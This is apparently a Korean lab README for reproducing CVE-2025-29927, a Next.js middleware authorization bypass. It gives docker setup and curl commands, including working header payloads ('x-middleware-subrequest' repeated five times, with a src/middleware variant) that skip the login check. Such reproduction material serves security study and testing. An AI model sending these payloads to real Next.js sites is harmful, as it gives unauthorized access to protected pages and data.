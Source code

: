# Next.js 미들웨어 인가 우회 (CVE-2025-29927)

## Next.js란?

Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## CVE-2025-29927 취약점 설명

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.

Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 이를 제대로 방어하지 못하고 서버 내부 렌더링 데이터(`__next_f`)를 외부 클라이언트에게 노출시키는 문제가 발생합니다.

### 요약

- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```
![](./p2.png)

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

정상적으로는 인증되지 않은 사용자가 대시보드에 직접 접근할 경우 로그인 페이지로 리디렉션됩니다.

```bash
curl -i http://your-ip:3000
```
![](./p3.png)

취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```
![](./p1.png)

요청 결과, 응답 본문에 서버 렌더링용 내부 JSON 데이터가 포함된 것을 확인할 수 있습니다.
이는 인증 없이 민감한 내부 정보를 획득할 수 있다는 것을 의미합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
